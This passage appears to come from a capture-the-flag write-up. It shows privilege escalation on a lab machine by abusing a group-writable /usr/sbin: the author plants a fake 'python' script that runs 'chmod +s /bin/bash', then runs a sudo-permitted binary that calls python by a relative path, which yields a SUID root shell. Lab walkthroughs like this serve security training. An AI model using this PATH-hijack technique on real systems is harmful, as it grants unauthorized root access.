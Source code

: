 However in the sudo permission, we see the **`secure_path`**:

```
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```

That means **we can't export our PATH environment varible outside those secure path**.

**BUT!!**
```
Orka@osboxes:/usr$ ls -lah
total 124K
drwxr-xr-x  11 root root 4.0K Feb 26  2019 .
drwxr-xr-x  23 root root 4.0K Jan 23  2021 ..
drwxr-x--x   2 root Orka  56K Jan 26  2021 bin
drwxr-xr-x   2 root root 4.0K Feb 26  2019 games
drwxr-xr-x  37 root root  16K Jan 23  2021 include
drwxr-xr-x 142 root root 4.0K Jan 26  2021 lib
drwxr-xr-x  10 root root 4.0K Feb 26  2019 local
drwxr-xr-x   3 root root 4.0K Feb 26  2019 locale
drwxrwxr-x   2 root Orka  12K Jan 23  2021 sbin
drwxr-xr-x 300 root root  12K Jan 26  2021 share
drwxr-xr-x   6 root root 4.0K Jan 23  2021 src
```

**In `/usr/bin` and `/usr/sbin`, we have the group permission**, which we can write stuff inside there!

**To exploit this relative path, I'll:**

- Create a malicious "python" Bash script that will add SUID sticky bit into `/bin/bash`, and mark it as executable:

```
Orka@osboxes:/usr/sbin$ echo "chmod +s /bin/bash" > python
Orka@osboxes:/usr/sbin$ chmod +x python
```

- Run the `bitcoin` binary with `sudo`:

```
Orka@osboxes:/usr/sbin$ sudo /home/Orka/Desktop/bitcoin
Enter the password : password
Access Granted...
			User Manual:			
Maximum Amount Of BitCoins Possible To Transfer at a time : 9 
Amounts with more than one number will be stripped off! 
And Lastly, be careful, everything is logged :) 
Amount Of BitCoins : 1
```

- Verify the exploit works:

```
Orka@osboxes:/usr/sbin$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Jul 12  2019 /bin/bash
```
